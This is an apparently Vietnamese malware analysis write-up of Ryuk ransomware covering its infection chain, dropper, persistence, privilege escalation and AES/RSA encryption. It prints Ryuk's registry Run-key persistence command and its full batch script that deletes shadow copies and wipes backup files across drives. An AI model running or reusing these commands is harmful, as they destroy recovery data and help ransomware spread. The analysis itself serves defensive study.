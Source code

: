 > Tên tài liệu: _Ryuk ransomware analysis_  
> Thực hiện: _Dat_  
> Cập nhật lần cuối: _25/08/2025_
## Mục lục:
1. [Attack chain](#a)
2. [Phân tích Ryuk](#b)
3. [Encryption](#c)

## Nội dung
<a name="a"></a>
### 1. Attack chain
<img width="1153" height="424" alt="image" src="https://github.com/user-attachments/assets/33a72cd1-def2-4dfd-a3de-507654079894" />

> Workflow:

- Phishing email: word document chứa macro
- Download Emotet thông qua kích hoạt macro
- Emotet download TrickBot - malware có thể system information, steal credentials, disable AV, lateral movement,...
- Connect C&C để download Ryuk để lây nhiễm và mã hóa hệ thống trong mạng.

Ryuk hoạt động 2 giai đoạn:
- Drop real Ryuk ransomware
- Injection running process, sửa đổi registry thông qua cmd
<img width="1491" height="472" alt="2" src="https://github.com/user-attachments/assets/9f485985-3fcf-400a-879c-3e78cbf988de" />

<a name="b"></a>
### 2. Phân tích Ryuk 
#### Cơ chế hoạt động
> Dropper
- Kiểm tra windows MajorVersion để quyết định vị trí drop real ransomware ryuk
  - Windows 2000 | Windows XP | Windows Server 2003: C:\Documents and Settings\Default User\
  - Windows Vista or later: C:\Users\Public\
- Random name ransomware: random 5 kí tự
- Kiểm tra kiến trúc máy tính để quyết định write payload 64 bit hay 32 bit
- Gọi ShellExecuteW() để execute
> Ransomware
- Xóa dropper
- Persistence: C:\Windows\System32\cmd.exe /C REG ADD "HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v "svchos" /t REG_SZ /d "C:\users\Public\BPWPc.exe" /f
- Privilege Escalation: sử dụng AdjustTokenPrivileges() để enable SeDebugPrivilege --> tác động đến các running process
- Injection chính nó vào các process (ngoại trừ các process running NT AUTHORITY)
- Sử dụng obfuscation với các import function
- Killing process sử dụng `net stop` and `taskkill`
- Delete backup: drop script tại C:\Users\Public\window.bat để xóa tất cả shadow copies, backups và tự xóa nó.
```
vssadmin Delete Shadows /all /quiet
vssadmin resize shadowstorage /for=c: /on=c: /maxsize=401MB
vssadmin resize shadowstorage /for=c: /on=c: /maxsize=unbounded
vssadmin resize shadowstorage /for=d: /on=d: /maxsize=401MB
vssadmin resize shadowstorage /for=d: /on=d: /maxsize=unbounded
vssadmin resize shadowstorage /for=e: /on=e: /maxsize=401MB
vssadmin resize shadowstorage /for=e: /on=e: /maxsize=unbounded
vssadmin resize shadowstorage /for=f: /on=f: /maxsize=401MB
vssadmin resize shadowstorage /for=f: /on=f: /maxsize=unbounded
vssadmin resize shadowstorage /for=g: /on=g: /maxsize=401MB
vssadmin resize shadowstorage /for=g: /on=g: /maxsize=unbounded
vssadmin resize shadowstorage /for=h: /on=h: /maxsize=401MB
vssadmin resize shadowstorage /for=h: /on=h: /maxsize=unbounded
vssadmin Delete Shadows /all /quiet
del /s /f /q c:\*.VHD c:\*.bac c:\*.bak c:\*.wbcat c:\*.bkf c:\Backup*.* c:\backup*.* c:\*.set c:\*.win c:\*.dsk
del /s /f /q d:\*.VHD d:\*.bac d:\*.bak d:\*.wbcat d:\*.bkf d:\Backup*.* d:\backup*.* d:\*.set d:\*.win d:\*.dsk
del /s /f /q e:\*.VHD e:\*.bac e:\*.bak e:\*.wbcat e:\*.bkf e:\Backup*.* e:\backup*.* e:\*.set e:\*.win e:\*.dsk
del /s /f /q f:\*.VHD f:\*.bac f:\*.bak f:\*.wbcat f:\*.bkf f:\Backup*.* f:\backup*.* f:\*.set f:\*.win f:\*.dsk
del /s /f /q g:\*.VHD g:\*.bac g:\*.bak g:\*.wbcat g:\*.bkf g:\Backup*.* g:\backup*.* g:\*.set g:\*.win g:\*.dsk
del /s /f /q h:\*.VHD h:\*.bac h:\*.bak h:\*.wbcat h:\*.bkf h:\Backup*.* h:\backup*.* h:\*.set h:\*.win h:\*.dsk
del %0
```

<a name="c"></a>
### 3. Encryption
- Sử dụng multi threading: tại một thread mới cho mỗi file mã hóa
- Liệt kê file --> mỗi file mỗi thread --> mã hóa
  - Tránh các file có extensions: .dll, .exe, .ink, .hrmlog, .ini
- Tạo random key AES 256 cho mỗi thread mã hóa file
- AES key được mã hóa với RSA public key
- Ryuk write metadata gồm 274 bytes ở cuối mỗi file mã hóa, với 6 bytes đầu `HERMES`, 12 byte blob RSA information, 256 bytes encypted key
- Liệt kê network share với WNetOpenEnumW() và WNetEnumResourceA() và tiếp tục mã hóa 






